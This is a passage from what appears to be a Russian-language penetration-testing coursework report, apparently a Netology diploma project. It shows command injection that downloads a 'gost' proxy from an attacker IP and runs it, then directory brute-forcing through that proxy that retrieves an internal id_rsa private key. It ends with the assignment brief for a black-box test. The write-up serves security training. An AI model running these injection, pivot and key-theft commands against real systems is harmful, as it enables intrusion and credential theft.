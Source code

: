     ```
    > Патриот ; curl <attacker ip>:3000/gost --output gost

    > Патриот ; chmod +x gost

    > Патриот ; ./gost -L=:1339
    ```

    Теперь этот веб-сервер является прокси во внутреннюю сеть.

4. Произвел брут директорий и файлов внутреннего ресурса `company.local` с использованием утилиты `ffuf` и словаря `fuzz.txt`.

    ```
    $ http_proxy=<web ip>:1339 ffuf -w fuzz.txt -u http://192.168.46.54/FUZZ -mc 301,200

    ansible => 301

    $ http_proxy=<web ip>:1339 ffuf -w fuzz.txt -u http://192.168.46.54/ansible/FUZZ -mc 301,200

    id_rsa  => 200

    $ http_proxy=<web ip>:1339 curl http://192.168.46.54/ansible/id_rsa
    ```

    В результате этих действий были получены кофиденциальные данные в файле `id_rsa`.

### Дипломный поект в Нетологии

#### Track Penetration Testing

**Задача**

Нужно протестировать сервис на безопасность — провести полноценое тестирование на проникновение методом чёрного ящика. Известен только адрес тестируемого приложения — `92.51.39.106`.

**Исходные данные**

1. Требования к тестированию. Тестирование должно проходить в рамках пентеста приложения, поэтапно, без деструктивных действий в сторону сервисов и других тестеров. Рекомендуем использовать полезные материалы и open source инструменты, рассмотренные на курсе.

2. Требования к отчёту. Отчёт должен быть в форме документа с задокументированными найденными уязвимостями. Чем полнее отчёт, тем лучше. Можно использовать любые инструменты и форматы — PDF, DOCX, MD и Tex, отрендеренный в PDF.

**Этапы тестирования**

***Этап 1. OSINT***

Критерии достижения:

1. Собрано необходимое количество информации о сервисе, были использованы различные сервисы для получения инфомрации — `Google`, `Shodan`, `CVE Details`.

2. Собранная информация систематизирована, имеет прямое отношение к тестируемому сервису, имеет ценность для тестирвоания.

3. Полученная информация оценена и проанализирована.

***Этап 2. Scanning***
